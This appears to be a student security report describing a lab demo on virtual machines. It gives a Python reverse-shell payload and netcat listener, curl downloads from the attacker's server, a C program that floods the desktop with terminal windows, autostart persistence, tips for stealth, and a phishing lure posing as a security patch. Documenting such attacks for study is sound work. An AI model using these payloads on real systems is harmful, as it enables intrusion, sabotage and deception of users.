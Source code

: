 ## Huseinovic Elma
## Cybersecurity report 

# Reverse shell and Denial of service with persistence on an Ubuntu virtual machine

## Introduction

The goal of the demo is to create a persistent Denial of Service on an Ubuntu virtual machine, which will therefore be the attacked machine, while a Kali virtual machine was used for the attacker. To do this, a reverse shell is first created to allow the attacking machine to act freely on the Ubuntu machine.

## Kali Preparation
First of all, all the necessary files were created on Kali.
First, the `reverseshell.sh` file, where the is the [payload](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#perl) in python 
```py
export RHOST="10.0.2.2";
export RPORT=4444;
python3 -c 'import socket,os,pty;
s=socket.socket();
s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));
[os.dup2(s.fileno(),fd) for fd in (0,1,2)];
pty.spawn("/bin/sh")&'
```
which allows to create a reverse shell in the background when executed on the attacked machine.
Then, a very simple C program, `dos.c`, was created, containing an infinite while loop that continues to open terminal windows:
```c
#include <stdlib.h>
int main(){
    while(1){
        system("gnome-terminal");
    }
    return 0;
}
```
The terminal was chosen to be opened for simplicity, it is possible to do it with other applications and also open several of them, creating a real crash of the machine.
Finally, the `dos.desktop` file was created:
```bash
[Desktop Entry]                  
Type=Application                
Exec=/home/ubuntu/dos            
Hidden=false                     
NoDisplay=false
X-GNOME-Autostart-enabled=true
Name[en_US]=dos
Name=dos
Comment[eu_US]=
Comment=
```
It will be used to insert the program that executes the Denial of Service among the applications that open at the start of the machine.
The Hidden and NoDisplay flags, to highlight the Denial of Service, have been set to false, if they are set to true, the program runs without the user noticing anything, so the machine is slowed down without being able to understand the reason.
Once the files were created, a web file server was also created on port 80, using the command.
`python -m http.server 80`

![Web File Server](images/webfileserverdemo.png)

At this point, the only thing left to do is to listen on the default port, to do this it was used netcat, with the command: `nc -lvp 4444 -n`

# Reverse shell 

To create the reverse shell, it is necessary for the user on the attacked machine to be convinced to download and execute the `reverseshell.sh` file, this could be done by creating a phishing email and convincing him, for example, that it is a security patch. In the demo, the command `curl -O "http://10.0.2.2/demo/reverseshell.sh"` is used, which downloads the file from the web file server created on Kali, at this point the command `sudo chmod +x reverseshell.sh` is executed which adds the execution permission to the file with administrator privileges, finally the file is executed with `./reverseshell.sh`.
At this point, being the reverse shell executed in the background, the user on Ubuntu can continue to use the terminal normally, without noticing anything, but in reality he is connected on port 4444 to the Kali machine through a reverse shell.

![Reverse Shell](images/kali-ubuntu-rs.png)

# DoS and persistence

Using the reverse shell, now, it is easy to download the `dos.c` program and the `dos.desktop` file from the Kali web file server always using the `curl` command:
`curl -O "http://10.0.2.2/demo/dos.c"`
`curl -O "http://10.0.2.2/demo/dos.desktop"`
now, the dos.c program is compiled using the `ggc -o dos dos.c` command, thus creating the executable. Before running it, however, persistence must be created: the `dos.desktop` file is moved to `.config/autostart`, to do this the `mv` command is used, which must, however, be executed with administrator privileges, therefore using `sudo`, this implies that the attacker must know the account password. Once `dos.desktop` is moved, the `dos` program is visible in Startup Application Preferences, which shows the programs that are run at the machine startup.

![Startup Application Preferences](images/application-startup.png)

So, every time the machine is accessed, countless terminal windows will be opened in a loop, making it unusable.

![DoS](images/dos.png)

Furthermore, another interesting feature is that, trying to remove `dos` using the Startup Application Preferences application and restarting the machine, the program is still executed, this is because the `dos.desktop` file present in `.config/autostart` is not removed, and continues to put the program among the applications to be executed at startup.
To stop this attack you might think of deleting the `dos` executable, but in case it is placed in a folder not easily reachable, this could not be done, especially if you do not know what is happening and if the machine starts to crash.
Alternatively, you could think of deleting the `dos.desktop` file, but given that it is located in a directory that is hidden by default and given that the terminal is unusable, this could be difficult.

## References
<a id="1">[1]<\a> Payload for creating the reverse shell: https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/
<a id="2">[2]<\a> For the creation of the web file server, inspiration was taken from: https://medium.com/@jbtechmaven/ethical-hacking-reverse-shell-attack-using-metasploit-57e9cd400c88
<a id="3">[3]<\a> For usage of netcat, to make the attacker listen on a predefined port: https://www.geeksforgeeks.org/how-to-create-reverse-shells-with-netcat-in-kali-linux/


